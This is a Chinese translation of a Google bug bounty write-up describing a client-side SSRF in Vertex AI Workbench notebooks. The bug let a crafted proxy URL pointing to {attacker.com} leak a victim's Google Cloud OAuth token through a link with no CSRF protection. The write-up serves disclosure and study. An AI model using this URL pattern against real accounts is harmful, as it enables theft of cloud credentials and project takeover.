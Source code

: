 #  客户端 SSRF 到 Google Cloud 项目接管 [Google VRP]

枇杷五星加强版  [ 黑伞安全 ](javascript:void\(0\);)

**黑伞安全** ![]()

微信号 hack_umbrella

功能介绍 安全加固 渗透测试 众测 ctf 安全新领域研究

____

___发表于_

收录于合集

翻译自https://blog.geekycat.in/client-side-ssrf-to-google-cloud-project-takeover/

  

这篇文章是关于我和Sivanesh于 2022 年在 Google Cloud 中发现的错误的一系列文章的一部分。

Google Cloud 提供Vertex AI，可让您构建、部署和扩展机器学习模型。除了各种其他功能之外，Vertex AI 还提供了“
Workbench ”功能。Workbench 使您能够在云上创建基于 Jupyter Notebook 的开发环境。如果您使用过 Jupyter
Notebook，您就会知道这里可能会出现很多问题。所以我决定深入挖掘。

Workbench 为您提供了两种选择：

  * 托管笔记本实例是托管在 Google 托管环境中的笔记本。这意味着您对它没有太多控制权。

  * 用户管理的笔记本可以高度自定义，并且完全由用户管理。

## 初始错误

当您创建笔记本时，它会给您一个实例https://{random-number}-dot-us-
central1.notebooks.googleusercontent.com/

由于托管笔记本位于 Google 托管环境（沙盒）中，因此它们无法访问您的 Google 云数据。因此，您必须授予托管笔记本通过 OAuth 流访问您的
Google Cloud 数据的权限。

![](https://gitee.com/fuli009/images/raw/master/public/20230714181022.png)范围：https://www.googleapis.com/auth/cloud-
platform

身份验证后，我决定使用该应用程序来了解流程。然后我偶然发现了这个特定的 URL：

https://{INSTANCE-ID}-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/compute.googleapis.com/something

嗯，我觉得有 SSRF 的味道。请求原始 URL 会产生一个响应，该响应看起来像是发送到
的经过身份验证的请求的输出compute.googleapis.com。根据以前的经验，我知道这些端点使用 Authorization 标头作为凭据。

我尝试更改compute.googleapis.com为geekycat.in.
但它不起作用，看起来有些白名单已经到位。经过一番摸索后，我发现https://{INSTANCE-ID}-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/{attacker.com}/compute.googleapis.com/绕过检查，这很容易😅

Authorization我的服务器的日志显示它收到了标头中带有令牌的请求。我很快验证了访问令牌。它确实拥有Cloud-
Platform我的谷歌帐户的权限。此外，易受攻击的端点是GET没有 CSRF
保护的请求（很常见）。这意味着，通过欺骗受害者点击精心设计的链接，攻击者可以获得授权令牌并获得对受害者所有 GCP 项目的完全访问权限。
